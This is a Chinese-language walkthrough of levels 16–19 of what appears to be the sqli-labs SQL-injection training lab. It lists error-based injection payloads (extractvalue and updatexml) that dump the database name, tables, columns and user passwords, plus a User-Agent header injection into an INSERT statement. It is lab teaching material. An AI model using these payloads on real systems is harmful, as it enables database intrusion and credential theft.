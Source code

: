 ### 第 16 关

没有错误信息的回显的第 12 关

### 第 17 关

开始上强度了，看不明白这页面是干什么的，尝试各种注入点页面都没什么变化。看源代码白盒测试 😈
php 代码的基本功能是获取前端输入的用户名的前十五位，对这十五个字符的特殊字符进行 mysql_real_escape_string 转义，如果用户名存在则将用户密码更改为前端输入的密码。在判断用户名的流程中, 后端语句使用了 select 语句，翻了翻 PHP 手册发现 mysql_real_escape_string 发现可以宽字节注入绕过, 但这样注没有回显。继续看代码发现 UPDATE 的 sql 语句执行错误时会回显错误信息，判断为报错注入。password 字段我们可以注入的语句为:

#### extractvalue 版本

爆版本 `1' and extractvalue(1,concat(0x5c,version(),0x5c))#`

爆数据库 `1' and extractvalue(1,concat(0x5c,database(),0x5c))#`

爆表名 `1' and extractvalue(1,concat(0x5c,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x5c))#`

爆字段名 `1' and extractvalue(1,concat(0x5c,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x5c))#`

爆字段内容(该格式针对 mysql 数据库) `1' and extractvalue(1,concat(0x5c,(select password from (select password from users where username='admin1') b) ,0x5c))#`

爆字段内容 `1' and extractvalue(1,concat(0x5c,(select group_concat(username,password) from users),0x5c))#`

#### updatexml 版本

爆版本 `1' and updatexml(1,concat(0x5c,version(),0x5c),1)#`

爆数据库 `1' and updatexml(1,concat(0x5c,database(),0x5c),1)#`

爆表名 `1' and updatexml(1,concat(0x5c,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x5c),1)#`

爆字段名 `1' and updatexml(1,concat(0x5c,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name ='users'),0x5c),1)#`

爆密码该格式针对 mysql 数据库 `1' and updatexml(1,concat(0x5c,(select password from (select password from users where username='admin1') b),0x5c),1)#`

爆表 `1' and updatexml(1,concat(0x5c,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name ='users'),0x5c),1)#`

### 第 18 关

进入页面发现会显示你的 ip 地址，使用 Dumb: Dumb 成功登录后页面会回显 Ip 地址和 User-Agent。查看源码发现本关会对 username 和 password 对进行一次包括 mysql_real_escape_string 函数在内的输入检测，当用户名和密码都正确时执行一个 INSERT 语句，将 UA 和 IP 插入到数据库中。这样的话这关有三种思路，一是采用宽字节注入等方式绕过输入检测，二是尝试利用 INSERT 语句写入 shell，三是通过修改请求头的 UA 字段进行报错注入。显然这里更可能是在要求我们使用第三种方法。在进行报错注入时需要注意执行的 SQL 语句 " INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$ IP', $uname)"; 在闭合时我们需要闭合单引号和括号，同时被闭合的内容要满足有三个参数，即`1',2,3)#`其中 2 和 3 的位置可以换成报错注入语句，例如`1',2, extractvalue(1, concat(0x5c, version(),0x5c)))#`

### 第 19 关
